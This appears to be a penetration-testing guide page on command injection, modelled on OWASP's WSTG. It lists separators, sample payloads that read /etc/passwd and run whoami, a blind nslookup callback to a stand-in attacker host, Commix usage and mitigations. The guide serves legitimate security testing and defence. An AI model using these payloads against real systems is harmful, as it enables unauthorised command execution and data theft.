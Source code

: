 # WSTG-INPV-12: Testing for Command Injection

## Summary
Command Injection occurs when an attacker injects malicious commands into a vulnerable application, leading to the execution of arbitrary operating system commands. This can compromise the host system, data, or infrastructure.

---

## Objectives
- Identify inputs that might interact with the operating system.
- Test for vulnerabilities that allow execution of unauthorized system commands.
- Assess the potential impact of successful command injection.

---

## How to Test

### Manual Testing

1. **Identify Input Points:**
   - Analyze the application for inputs that might invoke operating system commands (e.g., file uploads, shell inputs, parameterized APIs).
   - Example:
 ```http
     GET /ping?host=127.0.0.1 HTTP/1.1
```     

2. **Inject Command Payloads:**
   - Craft and inject malicious commands using separators:
     - Common separators:
       - `;`, `|`, `&&`, `||`
       - `\n`, `&`
     - Example:
    ```http
       GET /ping?host=127.0.0.1;ls HTTP/1.1
```      

3. **Observe Application Behavior:**
   - Look for:
     - Unexpected command output (e.g., directory listing, system information).
     - Errors revealing command execution traces.
   - Example command payloads:
     ```bash
     127.0.0.1; cat /etc/passwd
     127.0.0.1 | whoami
     ```

4. **Test Blind Command Injection:**
   - Inject time-based or out-of-band commands to infer command execution.
     - Example with time delay:
       ```http
       GET /ping?host=127.0.0.1; sleep 5 HTTP/1.1
```       
     - Example with DNS callback:
       ```bash
       127.0.0.1; nslookup attacker.com
       ```

---

### Automated Testing

Use tools like:
- **Commix:** Automate command injection detection and exploitation.
- **Burp Suite Extensions:** Test for injection using custom payloads.

#### Example with Commix:
- Run Commix against a vulnerable endpoint:
  ```bash
  commix -u "http://example.com/ping?host=127.0.0.1"
  ```

---

## Mitigation
- Sanitize and validate all inputs to remove special characters and ensure they conform to expected formats.
- Use secure APIs or libraries that do not directly interact with the operating system.
- Implement least-privilege principles for system-level commands.
- Monitor logs for unusual command execution patterns.
- Regularly patch and update the underlying systems and software.

---

## References
- OWASP Command Injection Cheat Sheet
- CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')
- Tools:
  - [Commix](https://github.com/commixproject/commix)
  - [Burp Suite Extensions](https://portswigger.net/bappstore)
